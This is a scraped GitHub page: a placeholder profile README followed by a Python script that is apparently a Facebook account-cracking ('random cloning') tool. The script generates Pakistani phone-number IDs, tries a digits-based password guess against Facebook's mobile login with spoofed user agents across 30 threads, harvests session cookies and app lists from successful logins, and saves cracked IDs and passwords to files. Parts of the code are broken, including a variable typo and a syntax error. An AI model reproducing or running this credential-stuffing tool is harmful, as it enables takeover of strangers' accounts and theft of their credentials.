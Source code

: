 - 👋 Hi, I’m @bk980
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
bk980/bk980 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
MrKamran
/
open-source
Public
Code
Issues
Pull requests
1
Actions
Projects
Security
Insights
open-source/Kamran.py
@Mr Kamran
Mr Kamran Add files via upload
 1 contributor
265 lines (252 sloc)  10.1 KB
from bs4 import BeautifulSoup as sop
from concurrent.futures import ThreadPoolExecutor as tred
import os,sys,time,json,random,re,string,platform,base64,platform,uuid
import marshal
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures==2 > /dev/null')
    os.system('python Kamran.py')
from bs4 import BeautifulSoup
ugen = []
A = '\x1b[1;97m' 
B = '\x1b[1;96m' 
C = '\x1b[1;91m' 
D = '\x1b[1;92m'
M = '\033[1;31m'
H = '\033[1;32m'
N = '\x1b[1;37m'    
E = '\x1b[1;93m' 
F = '\x1b[1;94m'
G = '\x1b[1;95m'
P = '\033[1;37m'
RED = '\033[1;91m'
WHITE = '\033[1;97m'
GREEN = '\033[1;32m' #
YELLOW = '\033[1;33m'
BLUE = '\033[1;34m'
ORANGE = '\033[1;35m'
KB = '{ KB }'
for xd in range(10000):
    a='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['6','7','8','9','10','11','12'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=f'{a} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}'
    ugen.append(uaku2)
try:
    os.system('curl https://bacho1001.blogspot.com/2022/07/ua.html -o ua.html')
except:
    pass
sock=open('ua.html','r').read().splitlines()
def uaku():
    try:
        ua=open('bbnew.txt','r').read().splitlines()
        for ub in ua:
            ugen.append(ub)
    except:
        a=requests.get('https://bacho1001.blogspot.com/2022/07/ua.html').text
        ua=open('.user-agents.txt','w')
        aa=re.findall('line">(.*?)<',str(a))
        for un in aa:
            ua.write(un+'\n')
        ua=open('.user-agents.txt','r').read().splitlines()
loop = 0
cps = []
oks = []
twf = []

def clear():
    os.system('clear')
    print(logo)
logo =f"""____________________
AUTHOR    : MR Kamran Bhatti
FACEBOOK : Kamran Bhatti
VERSION    : 1.1
                                   [THE DEAD USER]
____________________"""


#####     ####




def linex():
    print(f'==========================================================')
def checks(oks,cps,twf):
    if not len(oks) != 0:
        pass
    if len(cps) != 0:
        print('\n\n\x1b[1;97m TOTAL OK : \x1b[1;97m %s  \x1b[1;97mKB-OK.txt' % (
            H, P, str(len(oks))))
        print('\x1b[1;97m TOTAL CP :\x1b[1;97m   %s \x1b[1;97mKB-CP.txt' %
              (H, P, str(len(cps))))
        print('\x1b[1;97m TOTAL 2F :\x1b[1;97m   %s \x1b[1;97mKB-2F.txt' %
              (H, P, str(len(twf))))
        input("\x1b[1;97mPRESE ENTER TO BACK xyz  ")
        xyz()
loop = 0
cps = []
oks = []
twf = []
def cek_apk(session,coki):
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r %s[%s!%s] %s{ORANGE}SORRY THERE IS NO ACTIVE  APKS ðŸŽ®%s  '%(ORANGE))
    else:
        print(f'\r {GREEN}[âˆš] %sYOUR ACTIVE APPLICATION DETAILS :'%(GREEN))
        for i in range(len(game)):
            print(f"\r%s[%s] %s %s "%(N,i+1,game[i]. replace("Ditambahkan pada"," Ditambahkan pada"),N))
        #else:
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r %s[%s!%s] %s{ORANGE}SORRY THERE IS NO EXPIRED APKS ðŸŽ®%s'%(ORANGE))
    else:
        print(f'\r ðŸŽ®  %{RED}sYOUR EXPIRED APKS DETAILS :'%(RED))
        for i in range(len(game)):
            print(f"\r%s[%s] %s %s "%(N,i+1,game[i]. replace("Kedaluwarsa"," Kedaluwarsa"),N))
            print(f"{GREEN}[âˆš]---------------------------------------------------[âˆš]")
    #____________#
def xyz():
    #os.system("play-audio WELCOME_TO_kb_BOOT_818.mp3")
    os.getuid
    os.system("clear");print(logo)
    print('           \x1b[97m[\033[37;41m  M A I N   M E N U   \033[0;m] ')
    print(f"")
    print(f"[01] {WHITE}START RANDOM CLONING")
    print(f"[00] {WHITE}EXIT PROGRAM ")
    print(f"")
    print(f"\033[1;91m========================================================")
    Kamran= input("[âˆš] CHOOSE : ")
    if Kamran in ["1","01"]:
        Random()
    elif Kamarn in ["0","00"]:
       exit()
    else:
        print('\033[1;31mINCORECT OPTION!\033[1;31m')
        xyz()

#_____________#
 
#_____________________#

def Random():
    user=[]
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    print(f"")
    clear()
    print(f"          \x1b[97m[\033[37;41m  C O D E    M E N U   \033[0;m]")
    print(f"")
    linex()
    print(f"        \x1b[97m[\033[95;42mEXAMPLE :ðŸ‘‡\033[0;m]")
    print(f"")
    print(' 0306 ,0300 ,0315 ,0333')
    print(f" 0341 ,0342 ,0345 ,0349")
    print(f" 0321 ,0316 ,0308 ,0309")
    print(f"")
    linex()
    code = input(' PUT CODE : ')
    os.system("clear")
    print(logo)
    print(f"")
    print(f"          \x1b[97m[\033[37;41m  L I M I T   M E N U   \033[0;m]")
    print(f"")
    limit = int(input(' EXAMPLE: 1000, 2000, 5000, 10000\n\n PUT CLONING LIMIT: '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as yaari:    
        clear()
        tl = str(len(user))
        print(f" {WHITE}TOTAL IDZ             : {RED}"+tl)
        print(f" {WHITE}COUNTRY YOU CHOOSE    : PAKISTAN ")
        print(f" {WHITE}NUMBER YOU PUT        : {RED}"+code)
        print(f" {WHITE}PROCESS HAS BEEN STARTED")
        print(f" {WHITE}BE PATIENT.......")
        print(f" {WHITE}TO STOP PROCESS Ctrl + Z ")
        print(f'===========================================================')
        for love in user:
            uid = code+love
            pwx = [love]
            yaari.submit(free,uid,pwx,tl)
def free(uid,pwx,tl):
    global loop
    global oks
    global agents
    try:
        for ps in pwx:
            bi = random.choice([A])
            session = requests.Session()
            pro = random.choice(ugen)
            free_fb = session.get('https://m.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {'authority':'m.facebook.com',
            'method': 'POST',
            'scheme': 'https',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'accept-encoding':'utf-8','accept-language': 'en-US,en;q=0.9',
            'cache-control': 'max-age=0',
            'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="101"',
            'sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'none',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent':pro}
            lo = session.post('https://m.facebook.com/login/device-based/regular/login/?refsrc=deprecated&amp;lwv=100&amp;refid=8',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('\r\033[1;32m[âˆš]---------------------[JADU-OK]--------------------[âˆš]\nEMAIL : '+uid+'\nUID   : '+cid+' âˆš '+ps+ '\nCOOKIE   : '+coki+'\n[âˆš]---------------------------------------------------[âˆš]')
                cek_apk(session,coki)
                open('/sdcard/Kamran-OK.txt', 'a').write(cid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid=coki[24:39]
                Red = '\033[1;31m'
                print(f'\r{Red}[Ã—]--------------------[JADU-CP]---------------------[Ã—]\nEMAIL : '+uid+'\nUID   : '+cid+' âˆš '+ps+ '\n[Ã—]---------------------------------------------------[Ã—]\033[1;97m')
                open('/sdcard/Kamran-CP.txt', 'a').write(cid+' | '+ps+'\n')
                cps.append(cid)
                break
            elif '/x/checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid=coki[7:22]
                Red = '\033[1;31m'
                print(f'\r{YELLOW}[TEMP-LOCK] '+cid+' | '+ps+'\033[1;97m')
                open('/sdcard/Kamran-2F.txt', 'a').write(cid+' | '+ps+'\n')
                twf.append(cid)
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\33[1;37m[KAMRAN] [%s]\33[1;97m [OK:%s~CP:%s]'%(loop,len(oks),len(cps))), 
        sys.stdout.flush()
        checks(oks,cps,twf)
    except:
        pass: Kamran786

        
 
if __name__ == '__main__':
    xyz()
